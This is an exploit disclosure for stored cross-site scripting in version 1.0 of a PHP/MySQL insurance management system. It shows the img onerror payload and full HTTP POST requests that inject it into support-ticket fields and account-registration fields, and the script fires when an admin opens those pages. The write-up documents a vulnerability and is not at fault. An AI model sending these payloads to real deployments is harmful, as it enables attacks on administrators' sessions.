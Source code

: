 # Exploit Title: Insurance Management System PHP and MySQL 1.0 - Multiple Stored XSS
# Date: 2024-02-08
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html
# Version: 1.0
# Tested on: Windows / PHP 8.1 & XAMPP 3.3.0

## Support Ticket

Click on Support Tickets > Generate and add payload  < img src=x onerror=prompt("xss")> to Subject and Description fields, then send the request. When admin visits the Support Tickets page, XSS will be triggered.

   Example Request :
	    POST /e-insurance/Script/user/core/new_ticket HTTP/1.1
		Host: localhost
		Content-Type: application/x-www-form-urlencoded
		Content-Length: 139
		Cookie: PHPSESSID=17ot0ij8idrm2br6mmmc54fg15; __insuarance__logged=1; __insuarance__key=LG3LFIBJCN9DKVXKYS41

		category=4&subject=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&description=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&submit=1

## Create Account

Click on New Account button on login page, then fill the fields. Inject < img src=x onerror=prompt("xss") > payloads to fname, lname, city and street parameter, then click Create Account button. XSS will be triggered when admin visits Users page.

	Example Request : 
		POST /e-insurance/Script/core/new_account HTTP/1.1
		Host: localhost
		Content-Type: application/x-www-form-urlencoded
		Content-Length: 303
		Cookie: PHPSESSID=17ot0ij8idrm2br6mmmc54fg15

		fname=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&lname=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&gender=Male&phone=5554443322&city=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&street=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&email=test1%40test.com&password=Test12345&submit=1

![[XSS1.png]]

![[XSS2.png]]![[xss4.png]]
![[xss3.png]]
